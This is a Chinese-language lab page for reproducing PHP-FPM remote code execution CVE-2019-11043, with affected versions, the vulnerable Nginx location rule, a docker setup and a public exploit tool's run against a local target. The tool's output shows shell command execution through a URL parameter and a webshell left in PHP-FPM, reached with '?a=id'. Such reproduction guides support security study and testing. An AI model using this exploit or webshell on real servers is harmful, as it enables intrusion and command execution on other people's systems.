


PHP-FPM 远程代码执行漏洞（CVE-2019-11043）¶
PHP-FPM 是 PHP 的 FastCGI 实现。在 PHP 7.1.x 版本低于 7.1.33、7.2.x 版本低于 7.2.24 和 7.3.x 版本低于 7.3.11 的 FPM 配置下，PHP-FPM 模块可能会将超过分配缓冲区的数据写入 FCGI 协议数据空间，从而导致远程代码执行。
该漏洞最初是在长亭科技举办的 Real World CTF 2019 比赛中被发现。国外安全研究员 Andrew Danau 在解决一道 CTF 题目时发现，向目标服务器 URL 发送包含 %0a 符号的请求时，服务器返回异常，进一步研究发现这是一个严重的远程代码执行漏洞。
这个漏洞存在于 Nginx 与 PHP-FPM 的交互过程中，最常见的易受攻击配置包含 location ~ [^/]\.php(/|$) 规则。
参考链接
- PHP 官方漏洞报告：https://bugs.php.net/bug.php?id=78599
- 技术分析文章：https://lab.wallarm.com/php-remote-code-execution-0-day-discovered-in-real-world-ctf-exercise/
- 漏洞利用工具：https://github.com/neex/phuip-fpizdam
环境搭建¶
执行如下命令启动包含漏洞的 Nginx 和 PHP-FPM 环境：
docker compose up -d
环境启动后，访问 http://your-ip:8080/index.php 即可看到默认页面。
漏洞复现¶
使用 https://github.com/neex/phuip-fpizdam 提供的工具进行漏洞利用：
$ go run . "http://your-ip:8080/index.php"
2019/10/23 19:41:00 Base status code is 200
2019/10/23 19:41:00 Status code 502 for qsl=1795, adding as a candidate
2019/10/23 19:41:00 The target is probably vulnerable. Possible QSLs: [1785 1790 1795]
2019/10/23 19:41:02 Attack params found: --qsl 1790 --pisos 152 --skip-detect
2019/10/23 19:41:02 Trying to set "session.auto_start=0"...
2019/10/23 19:41:02 Detect() returned attack params: --qsl 1790 --pisos 152 --skip-detect <-- REMEMBER THIS
2019/10/23 19:41:02 Performing attack using php.ini settings...
2019/10/23 19:41:02 Success! Was able to execute a command by appending "?a=/bin/sh+-c+'which+which'&" to URLs
2019/10/23 19:41:02 Trying to cleanup /tmp/a...
2019/10/23 19:41:02 Done!
当看到以下输出时，表示漏洞利用成功：

成功利用漏洞后，一个 webshell 会被注入到 PHP-FPM 进程中。可以通过访问以下 URL 来执行命令：
http://your-ip:8080/index.php?a=id
命令执行成功的示例：

重要说明¶
- 此漏洞只会影响部分 PHP-FPM 子进程。如果命令第一次没有执行成功，需要多次尝试以访问到被污染的进程。
- 漏洞利用的成功与否很大程度上取决于具体的 Nginx 配置。最常见的易受攻击配置包括：
- 启用了 FastCGI 处理
- 通过 PHP-FPM 处理 PHP 文件
- 包含特定的、可被利用的 location 规则